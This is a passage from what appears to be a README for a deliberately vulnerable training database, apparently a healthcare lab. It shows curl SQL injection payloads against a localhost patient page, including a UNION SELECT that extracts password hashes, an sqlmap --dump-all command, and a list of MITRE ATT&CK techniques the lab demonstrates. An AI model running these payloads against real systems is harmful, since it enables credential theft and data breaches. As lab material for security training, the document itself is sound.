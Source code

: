 ### 5. SQL Injection (via vulnerable web app)

```bash
# Test for SQL injection
curl "http://localhost:8080/patient.php?id=1' OR '1'='1"

# Extract user hashes
curl "http://localhost:8080/patient.php?id=1' UNION SELECT username,password_hash FROM users--"

# Or use sqlmap
sqlmap -u "http://localhost:8080/patient.php?id=1" --dump-all
```

---

## MITRE ATT&CK Techniques

This database demonstrates **18 MITRE ATT&CK techniques**:

### Initial Access
- **T1078** - Valid Accounts (weak credentials)
- **T1190** - Exploit Public-Facing Application (SQL injection)

### Credential Access
- **T1110.001** - Brute Force: Password Guessing
- **T1110.002** - Brute Force: Password Cracking (MD5)
- **T1552.001** - Unsecured Credentials: Files (plaintext passwords)

### Privilege Escalation
- **T1068** - Exploitation for Privilege Escalation
- **T1078.003** - Valid Accounts: Local Accounts

### Collection & Exfiltration
- **T1213** - Data from Information Repositories
- **T1048** - Exfiltration Over Alternative Protocol
- **T1567** - Exfiltration Over Web Service

### Impact
- **T1485** - Data Destruction
- **T1486** - Data Encrypted for Impact (Ransomware)
- **T1491** - Defacement
- **T1565** - Data Manipulation

**See full mapping:** [DATABASE_MITRE_ATTACK_MAPPING.md](docs/security/DATABASE_MITRE_ATTACK_MAPPING.md)

---

## Documentation
